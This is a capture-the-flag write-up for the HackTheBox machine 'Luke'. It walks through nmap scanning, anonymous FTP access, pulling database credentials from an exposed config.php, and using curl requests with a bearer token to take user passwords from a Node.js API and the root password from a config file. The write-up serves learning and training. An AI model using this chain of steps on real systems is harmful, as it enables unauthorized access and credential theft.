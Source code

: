 # Luke 

Machine Level: Medium 
OS: FreeBSD

## Scanning 
I ran an aggressive NMAP scan to get a peak into the services on the machine. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ nmap -A [TARGET IP]
Starting Nmap 7.80 ( https://nmap.org ) at 2023-01-19 16:19 CST
Nmap scan report for [TARGET IP]
Host is up (0.079s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3+ (ext.1)
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 0        0             512 Apr 14  2019 webapp
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to [LOCAL IP]
|      Logged in as ftp
|      TYPE: ASCII
|      No session upload bandwidth limit
|      No session download bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3+ (ext.1) - secure, fast, stable
|_End of status
22/tcp   open  ssh?
|_ssh-hostkey: ERROR: Script execution failed (use -d to debug)
80/tcp   open  http    Apache httpd 2.4.38 ((FreeBSD) PHP/7.3.3)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.38 (FreeBSD) PHP/7.3.3
|_http-title: Luke
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
8000/tcp open  http    Ajenti http control panel
|_http-title: Ajenti

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 198.75 seconds
```
## Enumeration 
I went after the FTP service and was able to log in anonymously. I found a txt file called ```for_Cihiro.txt```. 
```
ftp> get for_Chihiro.txt
local: for_Chihiro.txt remote: for_Chihiro.txt
229 Entering Extended Passive Mode (|||38665|)
150 Opening BINARY mode data connection for for_Chihiro.txt (306 bytes).
100% |**********************************************************************|   306        1.11 MiB/s    00:00 ETA
226 Transfer complete.
306 bytes received in 00:00 (4.10 KiB/s)
```
The file contained information from anothe user named Derry. 
```
Dear Chihiro !!

As you told me that you wanted to learn Web Development and Frontend, I can give you a little push by showing the sources of 
the actual website I've created .
Normally you should know where to look but hurry up because I will delete them soon because of our security policies ! 

Derry  
```
I wanted to take a closer look at the service running on port 3000. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl http://[TARGET IP]:3000/
{"success":false,"message":"Auth token is not supplied"}
```
I looks like I need to supply a token in order to access. I was able to find something on port 80 within a ```config.php``` file after running ```gobuster```. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl http://[TARGET IP]/config.php
$dbHost = 'localhost';
$dbUsername = 'root';
$dbPassword  = '[REDACTED]';
$db = "login";

$conn = new mysqli($dbHost, $dbUsername, $dbPassword,$db) or die("Connect failed: %s\n". $conn -> error);
```
I was able to send the credentials to port 3000 in the header and I was able to obtain a good token to use. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl --header "Content-Type: application/json" --request POST --data '{"password":"[REDACTED]", "username":"admin"}' http://[TARGET IP]:3000/Login

{"success":true,"message":"Authentication successful!","token":"[REDACTED]"}
```
## Initial Access
I sent the token back to the server and logged in as a user to the database. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000
{"message":"Welcome admin ! "}
```
I was able to grab the list of users from the database with the token as well. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000/users
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
I saw the various users and I wanted to see if I could get their passwords as well. I know that Derry seems to be and admin or management user from the note in the FTP server. 
```
ajread@aj-ubuntu:~/hackthebox/htb_writeups$ curl -X GET -H 'Authorization: Bearer [REDACTED]' http://[TARGET IP]:3000/users/Derry
{"name":"Derry","password":"[REDACTED]"}
```
I was able to log into the http server running on port 80 at the ```/management``` subdirectory using Derry's credentials. I found a ```config.json``` file with what appeared to be the root user password. 
```
{
    "users": {
        "root": {
            "configs": {
                "ajenti.plugins.notepad.notepad.Notepad": "{\"bookmarks\": [], \"root\": \"/\"}", 
                "ajenti.plugins.terminal.main.Terminals": "{\"shell\": \"sh -c $SHELL || sh\"}", 
                "ajenti.plugins.elements.ipmap.ElementsIPMapper": "{\"users\": {}}", 
                "ajenti.plugins.munin.client.MuninClient": "{\"username\": \"username\", \"prefix\": \"http://localhost:8080/munin\", \"password\": \"123\"}", 
                "ajenti.plugins.dashboard.dash.Dash": "{\"widgets\": [{\"index\": 0, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.MemoryWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.sensors.memory.SwapWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"1\", \"class\": \"ajenti.plugins.dashboard.welcome.WelcomeWidget\"}, {\"index\": 0, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.uptime.UptimeWidget\"}, {\"index\": 1, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.power.power.PowerWidget\"}, {\"index\": 2, \"config\": null, \"container\": \"0\", \"class\": \"ajenti.plugins.sensors.cpu.CPUWidget\"}]}", 
                "ajenti.plugins.elements.shaper.main.Shaper": "{\"rules\": []}", 
                "ajenti.plugins.ajenti_org.main.AjentiOrgReporter": "{\"key\": null}", 
                "ajenti.plugins.logs.main.Logs": "{\"root\": \"/var/log\"}", 
                "ajenti.plugins.mysql.api.MySQLDB": "{\"password\": \"\", \"user\": \"root\", \"hostname\": \"localhost\"}", 
                "ajenti.plugins.fm.fm.FileManager": "{\"root\": \"/\"}", 
                "ajenti.plugins.tasks.manager.TaskManager": "{\"task_definitions\": []}", 
                "ajenti.users.UserManager": "{\"sync-provider\": \"\"}", 
                "ajenti.usersync.adsync.ActiveDirectorySyncProvider": "{\"domain\": \"DOMAIN\", \"password\": \"\", \"user\": \"Administrator\", \"base\": \"cn=Users,dc=DOMAIN\", \"address\": \"localhost\"}", 
                "ajenti.plugins.elements.usermgr.ElementsUserManager": "{\"groups\": []}", 
                "ajenti.plugins.elements.projects.main.ElementsProjectManager": "{\"projects\": \"KGxwMQou\\n\"}"
            }, 
            "password": "[REDACTED]", 
            "permissions": []
        }
```
I logged into the service running on port 8000 and found the user and root flags within ```/home/derry/user.txt``` and ```/root/root.txt```. There was no need to elevate privileges to do so. 